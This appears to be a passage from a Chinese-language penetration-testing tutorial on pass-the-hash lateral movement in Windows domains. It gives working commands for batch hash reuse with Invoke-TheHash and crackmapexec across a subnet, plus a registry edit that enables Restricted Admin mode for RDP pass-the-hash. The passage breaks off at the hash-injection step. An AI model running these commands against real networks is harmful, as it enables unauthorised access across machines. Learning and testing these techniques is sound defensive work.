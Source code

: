 方式很多，但遵循的原理就那一个。  

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20210810085737.png)批量PTH  

在域环境中，用户登录计算机时使用的大都是域账号，大量计算机在安装时会使用相同的本地管理员账号和密码。因此，如果计算机的本地管理员账号和密码也是相同的，攻击者就可以使用哈希传递的方法登录到内网主机的其他计算机.

powershell脚本批量PTH：  

![]()

  

https://github.com/Kevin-Robertson/Invoke-TheHash本地加载后使用

  *   * 

    
    
    Import-Module .\Invoke-WMIExec.ps1 Import-Module .\Invoke-TheHash.ps1

  

  

  

 **crackmapexec批量PTH：  
**

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20210810085754.png)

  * 

    
    
     crackmapexec smb 192.168.52.0/24 -u administrator -H 2b07f7b579bb97532a9eb37753765d8f -d tubai.com -x hostname

msf中也可以，改一下RHOSTS为整个段即可，方式很多。

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20210810085737.png)PTH对方机器的3389服务  

利用苛刻。

前提条件：需要目标机器的本地管理员权限

开启Restricted Admin mode适用系统：

高版本只支持 Windows 8.1和Windows Server 2012 R2 默认开启Restricted Admin mode

低版本需要打补丁， Windows 7 和Windows Server 2008 R2 默认不支持，需要安装补丁2871997、2973351

默认没开启的话可以改注册表开启Restricted Admin mode：  

  * 

    
    
    REG ADD HKLM\System\CurrentControlSet\Control\Lsa /v DisableRestrictedAdmin /t REG_DWORD /d 00000000 /f

  

将已经获得的`hash`注入至`mstsc`进程中：:  
